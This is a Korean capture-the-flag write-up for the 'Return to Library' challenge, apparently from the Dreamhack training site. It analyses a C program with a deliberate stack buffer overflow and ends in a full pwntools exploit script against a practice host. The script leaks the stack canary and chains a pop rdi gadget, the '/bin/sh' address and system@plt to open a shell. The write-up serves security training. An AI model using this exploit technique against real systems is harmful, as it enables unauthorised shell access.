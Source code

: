 Return to Library 라이트업
====================

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드를 분석해보면 

**1. "/bin/sh"를 바이너리에 추가**

* rtl.c 코드의 8번째 줄은 바이너리에 /bin/sh 문자열을 추가하기 위해 작성된 코드이다.
* ASLR이 적용되더라도 PIE(Position-Independent Executable)가 적용되지 않으면
  코드 세그먼트와 데이터 세그먼트의 주소는 고정된다.
   /bin/sh의 주소도 고정되어 있다.  

**2. PLT에 system 함수 추가**

* 17번째 줄은 PLT에 system 함수를 추가하기 위해 작성된 코드이다.
* system 함수는 라이브러리 함수이므로 PLT와 GOT는 라이브러리 함수 참조를 위해 사용되는 테이블들이다.
* 처음에는 system 함수의 주소가 resolve되지 않았을 때 함수의 주소를 구하고 실행하는 코드가 작성된다.
* **Return to PLT 공격**의 원리: ASLR이 걸려있더라도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되어 있다.
  따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면
   공격자는 해당 함수의 PLT 엔트리로 실행 흐름을 옮김으로써 해당 함수를 실행할 수 있다.
  무작위 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법을 통해 라이브러리 함수를 실행할 수 있다.   

**3. 버퍼 오버플로우**

`buf` 의 크기는 0x30 이지만 read 함수로 0x100 만큼을 입력받기 때문에 버퍼 오버플로우가 발생한다.

<img width="911" height="352" alt="image" src="https://github.com/user-attachments/assets/c8bc2486-92d9-4fe0-8a75-b90768e2ccf3" />

<img width="778" height="182" alt="image" src="https://github.com/user-attachments/assets/31d270f3-4c12-411c-9411-f28ee7ab0a96" />


disass main으로 확인해보면 buf 의 크기는 0x40     
하지만 이건 카나리가 포함된 크기이기 때문에 실제 buf 의 크기는 카나리를 제외한 0x38 이다. 


## 익스플로잇


* **카나리 우회:** 첫 번째 입력에서 카나리를 우회한다.
* **`rdi` 값을 "/bin/sh"의 주소로 설정 및 셸 획득:**
    * 카나리를 우회한 후, 두 번째 입력으로 반환 주소를 덮을 수 있다.
    * NX으로 인해 `buf`에 셸코드를 주입하고 직접 실행할 수는 없다.
    * **공격에 필요한 정보:**
        * "/bin/sh" 문자열의 주소 
        * `system` 함수의 주소
    * **목표:** `/bin/sh`를 호출하여 셸을 획득하기
      x86-64 호출 규약에 따르면 `system("/bin/sh")`은 `rdi` 레지스터에
      `"/bin/sh"` 주소가 있는 상태에서 `system` 함수를 호출하는 것과 같다.
    * **Return-Oriented Programming (ROP) 활용:** `/bin/sh`의 주소를 알고
      `system` 함수를 호출할 수 있으므로
       `/bin/sh`의 주소를 `rdi` 값으로 설정할 수 있다면
       `system("/bin/sh")`을 실행할 수 있다. 이를 위해 **리턴 가젯**을 활용해야 한다.


### 리턴 가젯

<img width="687" height="87" alt="image" src="https://github.com/user-attachments/assets/ef210971-58f3-4e5f-a964-d35db3c53de6" />

return gadget이란 ret 명령어로 끝나는 어셈블리 코드 조각을 의미한다. ROPgadget 명령어를 사용해서 위와 같이 가젯을 구할 수 있다.

이 문제에서는 rdi의 값을 `/bin/sh`의 주소로 설정하고 system 함수를 호출해야 한다. 

```
addr of ("pop rdi; ret")   <= return address
addr of string "/bin/sh"   <= ret + 0x8
addr of "system" plt       <= ret + 0x10
```

리턴 가젯을 사용해서 반환 주소와 이후의 버퍼를 이렇게 덮으면 pop rdi로 rdi의 주소를 `/bin/sh` 의 주소로 설정하고 이어지는 ret으로 system 함수를 호출할 수 있다. 




### 다른 주소 확인

<img width="772" height="73" alt="image" src="https://github.com/user-attachments/assets/bc315f97-cf5e-401c-aa8c-11d5173b2915" />

system 함수 주소 확인

<img width="1082" height="260" alt="image" src="https://github.com/user-attachments/assets/fc33e7fd-a9bd-438e-a344-98df167db1f0" />

ret 확인


### 익스플로잇 코드


```python
from pwn import *
context.log_level = 'debug'
context(arch='amd64', os='linux')

p = remote("host1.dreamhack.games", 21518)

p.recvline('Buf: ')
dummy = b'A' * 0x39
print(dummy)
p.send(dummy)
p.recvuntil(dummy)
canary_leak = b'\x00' + p.recvn(7)

canary = u64(canary_leak)
print('canray : {}'.format(hex(canary)))

ret = 0x400596
pop_rdi = 0x400853
binsh = 0x400874
system = 0x4005d0

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

p.recvuntil('Buf: ')
p.send(payload)

p.interactive()
```




### 실행 결과


<img width="598" height="152" alt="image" src="https://github.com/user-attachments/assets/28597c4f-37d3-4379-a3ce-3edbf5dd6fae" />



